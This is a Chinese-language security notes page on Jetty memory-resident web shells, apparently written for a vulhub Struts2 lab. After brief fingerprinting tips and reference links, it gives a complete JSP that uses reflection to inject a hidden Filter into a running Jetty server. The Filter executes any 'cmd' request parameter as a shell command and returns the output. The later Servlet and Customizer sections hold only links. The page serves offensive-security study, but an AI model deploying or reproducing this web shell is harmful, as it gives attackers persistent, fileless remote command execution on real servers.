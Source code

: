```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - Web安全
  - Java
tags:
  - 内存马
  - Jetty
---
```


# Jetty内存马

Eclipse Jetty 是一个轻量级、高度可扩展、基于 Java 的 Web 服务器和 Servlet 引擎。Jetty 的目标是以高容量、低延迟的方式支持 Web 协议（HTTP/1、HTTP/2、HTTP/3、WebSocket 等），从而提供最高性能，同时保持易用性和与多年 Servlet 开发的兼容性。

Jetty 是一种现代的完全异步 Web 服务器，作为面向组件的技术有着悠久的历史，可以轻松嵌入到应用程序中，同时仍然为 Web 应用程序部署提供可靠的传统发行版。

---

## 基本信息收集

### 查看版本号

- Web侧的话

  - 响应标头中可能会有 Jetty 版本信息, 例如:

    ![image-20240918162938756](http://cdn.ayusummer233.top/DailyNotes/202409181629820.png)

  - Wappalyzer 应该也是用的上面这种方案获取的版本信息:

    ![image-20240918163003019](http://cdn.ayusummer233.top/DailyNotes/202409181630064.png)

- 主机侧的话

  - 可以在 JavaWeb 项目的 `pom.xml` 中看到 jetty 的版本号

    ![image-20240918162309589](http://cdn.ayusummer233.top/DailyNotes/202409181623686.png)

  - 直接 `find / | grep jetty` 也可能看到相应路径信息中显示的 jetty 版本信息:

    ![image-20240918162417425](http://cdn.ayusummer233.top/DailyNotes/202409181624482.png)

---

## 构造可用的 Servlet

Jetty 9.2.x 提供了更加安全且可维护的方式来处理 `Servlet` 的动态注册

可以通过 `ServletHandler` 和 `ServletHolder` 来动态注册 `Servlet`，并设置 URL 映射。这不再需要反射访问私有字段

> TODO: 搞不出来, 看了下 `web.xml` 里也没有配置 servlet mapping 之类的, 遂放弃

---

## 构造内存马

> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [3gstudent-Blog](https://3gstudent.github.io/)
>
> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)

---

## Filter内存马

> [从0到1学会Jetty内存马注入 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/15141?u_atoken=1f048c5fb527d82d5ec4ba4c07b4c57d&u_asig=0a472f8c17266484778997576e004d)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [Java利用技巧——Jetty Filter型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Filter型内存马)
>
> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)

环境: vulhub 的 s2-045 Docker, 其中 Jetty 版本为 9.2.11

---

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

![image-20240920152529930](http://cdn.ayusummer233.top/DailyNotes/202409201525001.png)

![image-20240920145928096](http://cdn.ayusummer233.top/DailyNotes/202409201459280.png)

![image-20240920150008171](http://cdn.ayusummer233.top/DailyNotes/202409201500230.png)

---

## Servlet型内存马

> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)





---

## Customizer型内存马

> [一种在高版本JDK下 的新型嵌入式Jetty Customizer内存马实现 - 白帽酱の博客 (rce.moe)](https://rce.moe/2023/08/19/Jetty-Customize-memory-webshell/)



